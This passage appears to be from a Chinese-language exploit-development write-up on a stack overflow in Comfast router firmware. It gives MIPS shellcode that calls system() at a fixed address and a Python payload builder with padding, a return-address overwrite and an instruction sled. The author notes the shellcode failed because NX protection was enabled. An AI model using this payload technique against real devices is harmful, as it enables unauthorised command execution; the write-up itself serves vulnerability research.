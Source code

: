 1. 首先，在栈上预写满 0xff 个指令 `addiu $a0, $zero, 0x457`，并更改栈返回地址将程序跳转至 0x2B2A6654，具体跳到哪里无所谓，只要跳到 `addiu $a0, $zero, 0x457` * 0xff 这个区间里面的任意地址就行. 
2. 准备完毕后，构造命令的执行 Payload，并将构建完毕的 Payload 接入填充指令的尾部，进而后续执行(0x2B4002F0 是 system 函数的地址，此处未开启栈随机化，因此暂时拿 0x2B4002F0 作为其地址)  
	```mips
	li 	$a0, 0x2B2A7A58
	li 	$t9, 0x2B4002F0
	jalr $t9
	```
3. 写入要执行的命令，例如 `mkdir /12345`，在此处是不得手动添加 `\x00` 在末尾的

测试版本的 Shellcode 如下所示

```python
data0  = b'A' * 248
data0 += p32(0x2B2A7660)
data0 += b'A' * 0xff0
data0 += b"\x57\x04\x04\x24" * 0xff			#写入 addiu $a0, $zero, 0x457
data0 += b"\x2a\x2b\x04\x3c\x58\x7a\x84\x34\x40\x2b\x19\x3c\xf0\x02\x39\x37\x09\xf8\x20\x03"
data0 += b"mkdir /12345"
```

可以发现PC成功跳转，但是继续运行就报错！这是为什么？后续经 checksec 才发现，Comfast 最新版本的固件居然开启了 NX 保护，因此现在无法在栈上执行任何代码了(明明之前还没开的)

(`li $a0, 0x457` 即为 `addiu $a0, $zero, 0x457`)

![/image/cfac100/2.png](/image/cfac100/2.png)  

![/image/cfac100/3.png](/image/cfac100/3.png)  

不过这倒无所谓，换种方法继续构造罢了  
